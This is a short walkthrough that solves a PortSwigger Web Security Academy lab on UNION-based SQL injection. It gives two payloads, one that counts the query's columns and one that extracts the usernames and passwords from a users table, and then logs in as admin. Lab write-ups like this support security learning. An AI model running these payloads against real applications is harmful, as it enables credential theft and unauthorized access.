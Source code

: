 [Source](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)
## Task
This lab contains a SQL injection vulnerability in the product category filter. The query results are returned in the application response, so we can use a `UNION` attack to extract data from other tables. To build such an attack, we need to combine some of the techniques we learned in previous labs.

There is another table in the database called `users` that contains `username` and `password` columns.

To solve the lab, perform a `UNION` SQL injection attack that will extract all usernames and passwords, and then use this information to log in as the admin user.
## Solution
Go to the site

![image](images/20241201185020.png)

Determine how many columns there are
```SQL
'+UNION+SELECT+NULL,NULL--
```

![image](images/20241201185159.png)

Do SQL-Injection
```SQL
'+UNION+SELECT+username,password+FROM+users--
```

![image](images/20241201185424.png)

Log in as admin

![image](images/20241201185450.png)


![image](images/20241201185512.png)
